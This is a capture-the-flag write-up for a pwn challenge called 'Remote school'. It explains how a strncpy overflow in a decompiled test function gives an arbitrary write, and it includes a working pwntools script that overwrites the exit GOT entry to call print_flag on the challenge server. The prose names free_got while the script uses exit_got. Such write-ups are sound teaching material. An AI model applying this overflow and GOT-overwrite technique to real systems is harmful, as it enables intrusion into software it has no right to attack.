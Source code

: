 # Remote school
> LongChampion, 06/04/2020

## Challenge
This challenge have many functions, with complex structures and flow. But to solve this, you only need to make attention for `class_hacker` and `test` function:  
`class_hacker`:
```cpp
int class_hacker()
{
  char s; // [esp+0h] [ebp-2008h]

  puts("\nWelcome!");
  fgets(&s, 0x2000, stdin);
  printf("Got %s\n", &s);
  return test(&s);
}
```
`test`:
```cpp
int __cdecl test(char *src)
{
  char dest[2048]; // [esp+8h] [ebp-810h]
  int XXXX; // [esp+808h] [ebp-10h]
  _DWORD *p; // [esp+80Ch] [ebp-Ch]
  int _EBP; // [esp+818h] [ebp+0h]

  printf("0x%x\n", &_EBP);
  strncpy(dest, src, 0x808u);                   // can overwrite XXXX and p
  *p = XXXX;                                    // write XXXX to somewhere
  return printf("0x%x\n", XXXX);
}
```
At `test` function, as commented, you can overwrite `XXXX` and `p`, it give you an arbitrary write. The binary is compiled with PIE, but ASLR is turned off in the server. So we can overwrite address of `print_flag` function to somewhere in GOT segment and take the flag. In the solution below, I choose `free_got` to overwrite.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./online"

#quitr = process("./online", aslr=False)
r = remote("challenges.auctf.com", 30013)
r.sendlineafter("Name:", "LongChampion")
r.sendlineafter("menu]:", "attend Hacker")

print_flag_addr = 0x56556299
exit_got = 0x5655902c

payload = 'A' * 0x800 + p32(print_flag_addr) + p32(exit_got)
r.sendlineafter("Welcome!", payload)
r.sendlineafter("menu]:", "quit")
r.interactive()
```

Note that, you need trigger `exit` by send `quit` command to the binary. This will cause an infinity loop because `print_flag` will call `exit` (which is now `print_flag`) again and the binary will crash. But we get the flag so who care about this!
